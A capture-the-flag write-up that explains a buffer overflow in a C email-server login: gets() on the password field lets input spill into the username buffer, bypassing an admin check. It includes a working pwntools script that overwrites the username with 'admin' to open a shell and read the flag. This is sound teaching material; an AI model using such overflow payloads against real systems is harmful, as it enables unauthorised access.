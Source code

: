 # Corporate Cliche
**Category** - <span style="color:blue;">Beginner</span>

## Challenge Text
It's time to really push the envelope and go above and beyond! We've got a new challenge for you. Can you find a way to get into our email server?

Regards,
Blue Alder

## Goal
Access email server and assumingly get flag from server

## Initial Observations
I was given a c program `email_server.c` that showed how logins to the server were handled.

I noticed a few interesting features of this c program.

There is a check that if the username given is admin that the program exits
```c
if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }
```

Later in the program execution there is a check for the correct password, this also checks if the username given is admin but this time if it is admin it opens a shell.
```c
if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
```

* Interesting, it seems to be two conflicting conditions for the same username, how can this be?
* I wonder if there is a way to somehow change the username mid execution after the first check is performed so that admin session will be opened.

The valid logins with the `username` and `password` are hardcoded in the program
```c
const char* logins[][2] = {
    {"admin", "🇦🇩🇲🇮🇳"},
    {"guest", "guest"},
};
```

The `password` is initalised first and straight afterwards the `username` is initalised. This means that in memory the password should be sitting alongside the username. It should look like `| password[0..31] | username[0..31] |`
```c
    char password[32];
    char username[32];
```

The `username` and `password` strings are obtained using different `input` methods.
The `username` is obtained using `fgets()`
```c
    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
```

The password uses `gets()`
```c
    printf("Enter your password: ");
    gets(password);
```

* It is noted that `gets()` is **unsafe** because it has *no bounds* checking allows `buffer overflows`
* Both the strings are initalised as 32 long strings
* Using `gets()` allows me to enter more than 32 bytes into `password` and overflow data into the `username` string

## Steps Taken
1. At the username prompt, enter anything, as long as it isn't `admin` the program will continue
2. At the password prompt, enter the password for `admin` - `🇦🇩🇲🇮🇳` and then fill the remaining space of the string with junk to progress or overflow into the username string, at the start of the `username` string put in `admin`.
3. This can be performed with a python script using pwntools library

```python
from pwn import *

# Set up connection (replace with actual host/port)
HOST = 'localhost'  # Replace with actual target
PORT = 1337  # Replace with actual port

# Start connection
conn = remote(HOST, PORT)

# Step 1: Send dummy username that passes the check
conn.sendlineafter(b"Enter your username: ", b"guest")

# Step 2: Build payload to overflow password and overwrite username
emoji_pw = "🇦🇩🇲🇮🇳".encode('utf-8') # Actual password for admin user
padding = b"A" * (32 - len(emoji_pw + b"\x00"))       # Fill password buffer
username = b"admin\x00"   # Overwrite username with "admin"

payload = emoji_pw + b"\x00" + padding + username 

# Step 3: Send payload
conn.sendlineafter(b"Enter your password: ", payload + b'\n')

# Interact with shell if successful
conn.interactive()
```

4. A shell was opened and a directory listing revealed that the flag was sitting in the directory using `cat flag.txt` the flag was able to be obtained.